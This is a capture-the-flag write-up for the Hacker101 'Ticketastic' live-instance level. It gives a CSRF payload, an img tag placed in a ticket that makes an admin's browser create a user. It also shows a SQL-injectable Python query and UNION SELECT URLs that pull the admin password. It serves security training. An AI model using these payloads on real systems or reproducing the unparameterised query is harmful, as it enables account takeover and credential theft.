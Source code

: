 ```yaml
---
title: Live Instance
published: true 
tags: Hacker101
---
```


# Flag 0

### Hints:
* This level and the Ticketastic demo instance are running the same code
* Take a look at addUser on the demo instance
* What is missing?
* Humans might read these tickets and interact with them
* Links in tickets could be interesting

```html
<form method="GET">
    Username: <input type="text" name="username"><br>
    Password: <input type="password" name="password"><br>
    Repeat password: <input type="password" name="password2"><br>
    <input type="submit" value="Create">
</form>
```

If both instances run on the same code then in live instance also is missing csrf token. So it should be possible trick browswer to send request to newUser endpoint. If currently loggen user will has admin priviliges then new user will be created. To achive thath, create ticket with this title and body:

```html
<img src="http://localhost/newUser?username=1test1&password=test&password2=test">
```

submit, wait a minute then login in with those credentials. Flag is in ticket "Flag Won't Work"

![Flag](assets/live_instance/flag0/flag.png)

More about this vulnerability you can read [here](https://owasp.org/www-community/attacks/csrf).

* * *

# Flag 1

###  Hints:
* How do others log into this instance?
* The login form reveals more than it should
* So does the ticket endpoint

Tickets have id number, by manipulating that param is possible to exploit SQL injection because system respond with an error message to query where id has additional apostrophe. Original query to database:

![Error message](assets/live_instance/flag1/sql_error.png)

```python
cur.execute('SELECT title, body, reply FROM tickets WHERE id=%s' % request.args['id'])
```

So there must be way to exploit this vulnerability. As first step I try to control data presented on the page. With following query it is possible:

```
http://34.74.105.127/74d469a935/ticket?id=111%20union%20select%20%271%27,%271%27,%271%27%20#
```

![Data controll](assets/live_instance/flag1/page_result.png)

After reading hints I guess the second flag is somewhere in users table, probably it is connectected with admin. So I check it out

![Flag](assets/live_instance/flag1/flag.png)

and I was right, flag is admin passwod. 

```
http://34.74.105.127/74d469a935/ticket?id=111%20union%20select%20username,password,%271%27%20from%20users%20where%20username=%27admin%27;select%20%271
```

That query used to read flag. 